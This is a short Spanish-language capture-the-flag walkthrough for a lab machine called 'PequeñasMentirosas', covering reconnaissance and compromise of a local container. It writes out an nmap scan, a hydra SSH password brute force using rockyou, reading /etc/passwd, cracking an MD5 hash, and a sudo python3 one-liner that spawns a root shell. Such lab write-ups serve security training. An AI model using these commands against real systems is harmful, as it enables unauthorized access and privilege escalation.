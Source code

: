Maquina: PequeñasMentirosas

Autor: Beafn28

Dificultad: Facil


Realizamos un ping a la máquina para verificar la comunicación.
ping 172.17.0.2 -c 1

Escaneamos con Nmap.
sudo nmap -p- --open -sCV --min-rate 5000 -sS -Pn -n 172.17.0.2 -vvv

Observamos que el puerto 80 y 22 estan abiertos.

Accedemos a la página web alojada en esta máquina utilizando un navegador y vemos un posible usuario.

Usamos hydra.

hydra -l "a" -P /home/ankb/Documents/rockyou.txt ssh://172.17.0.2 

Encontramos la contrasena para el usuario y enctramos por ssh.

ssh a@172.17.0.2

secret

Si vemos los usuarios que existen, encontramos spencer.

cat /etc/passwd | grep "sh$"

Hacemos una busqueda de archivos .txt de la siguiente manera find / -name *.txt 2>/dev/null

ls | xargs cat

cat /srv/ftp/hash_spencer.txt

Encontramos con un hash en MD5, usamos CrackStation y nos da la contrasena: password1

Cambiamos al usuario spencer

su spencer

password1

sudo -l

Con este usuario veremos que podemos ejecutar el binario de /usr/bin/python3 como cualquier usuario sin propocionar contraseña.

sudo /usr/bin/python3 -c "import os; os.system('/bin/bash')"

whoami
